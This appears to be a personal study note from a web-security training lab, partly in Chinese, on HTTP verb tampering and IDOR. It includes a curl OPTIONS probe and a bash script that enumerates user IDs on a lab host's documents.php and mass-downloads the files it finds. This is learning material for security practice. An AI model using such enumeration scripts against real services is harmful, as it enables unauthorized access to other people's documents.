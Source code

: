 # <span style=color:#44D62C>HTTP Verb Tampering</span>
```bash
curl -i -X OPTIONS http://SERVER_IP:PORT/
```
* HTTP request method
    * POST,OPTIONS,HEAD,GET
* Command Injection + HTTP Verb Tampering

![image](https://hackmd.io/_uploads/S1bxv4vX0.png)

![image](https://hackmd.io/_uploads/B1DevNDQC.png)

* Insecure Configuration
* <span style=color:red>RED team hints: Try again and agin to test secure</span>
---
# <span style=color:#44D62C>IDOR</span>
## <span style=color:#53565A>eunm</span>
![image](https://hackmd.io/_uploads/HJetvvw7C.png)

* learn how to config curl options
    * -s: --silent
    * -d: --data
    * curl -s -X POST "http://83.136.253.153:51577/documents.php" -d "uid=1" | grep -oP "/documents.*?\.[a-z]{3}"
        * i.e., /documents.<u>php/report_20240520</u><span style=color:red>.txt</span>
        * i.e., /documents.<u>php/flag_123456</u><span style=color:red>.txt</span>
```bash
#!/bin/bash

url="http://$1"

for i in {1..20}; do
        for link in $(curl -s -X POST "$url/documents.php" -d "uid=$i" | grep -oP "/documents.*?\.[a-z]{3}");
        do
                wget -q $url$link
        done
done
```
* bash _script.sh STMIP:STMPO
    * 使用傳遞的參數(小技巧, 也可以直接在腳本$1裡寫位置)
* bash _script.sh 83.136.253.153:51577